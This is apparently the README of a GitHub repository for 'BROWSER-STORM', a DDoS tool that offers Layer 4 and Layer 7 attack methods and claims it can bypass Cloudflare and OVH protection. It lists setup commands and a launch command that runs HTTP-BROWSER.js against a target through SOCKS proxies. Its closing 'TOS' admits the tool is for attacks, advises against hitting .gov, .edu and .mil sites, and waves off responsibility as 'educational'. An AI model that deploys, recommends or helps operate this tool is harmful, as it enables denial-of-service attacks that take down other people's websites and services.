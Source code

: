 # 🚀 BROWSER-STORM 🚀

# Tree
* [Read this Pls](#plz-%EF%B8%8F)
* [browser-storm Info](BROWSER-STORM)
* [Setup](#Setup)
* [Usage](#Usage)
* [Credits](#Credits)
* [T.O.S](#TOS)

# Plz ♥️
It would help me a lot if you give a star ⭐ to this repository.<br>
One star from you = more desire to continue updating Stanley

# BROWSER-STORM
- [x] Open Source
- [x] Stable
- [x] Simple
- [x] Methods for Layer 4 and 7
- [x] Bypass (CF, OVH, Etc)  
- The source is not mine, I just made a few additions, the original owner of the source SkyWtkh

# Setup
```sh
apt update -y; apt upgrade -y; apt install sudo -y; sudo apt install curl; curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -

apt install nodejs -y; npm i playwright; npm i playwright-extra; npx playwright install-deps; npm i socks; npm i header-generator; npm i request; npm i cluster; npm i gradient-string; npm i url; npm i tls; npm i dns; npm i stream; npm i events; npm i tough-cookie; npm i ua-parser-js; npm i ua-parser-js;

wget -q -O - https://dl.google.com/linux/linux_signing_key.pub | sudo apt-key add -
sudo sh -c 'echo "deb [arch=amd64] http://dl.google.com/linux/chrome/deb/ stable main" >> /etc/apt/sources.list.d/google.list'
sudo apt update -y; sudo apt install google-chrome-stable -y; wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb; sudo apt install ./google-chrome-stable_current_amd64.deb;

```

# Usage
```sh
node HTTP-BROWSER.js --key=LICENSE-MAINHSJS --time=10000 --threads=1  --requests=1 --mode=GET --proxy=socks4.txt --target=
```

# Credits
```sh
aqu1337
ayhu1337
all terminaljunkies users.
```

# TOS:
```sh
Do not attack government pages (.gov/.gob), educational pages (.edu) or the United States Department of Defense (.mil), 
the creator is not responsible for the damage caused by the attacks. 
remember: you are responsible for the attacks since this tool was created for educational purposes
```
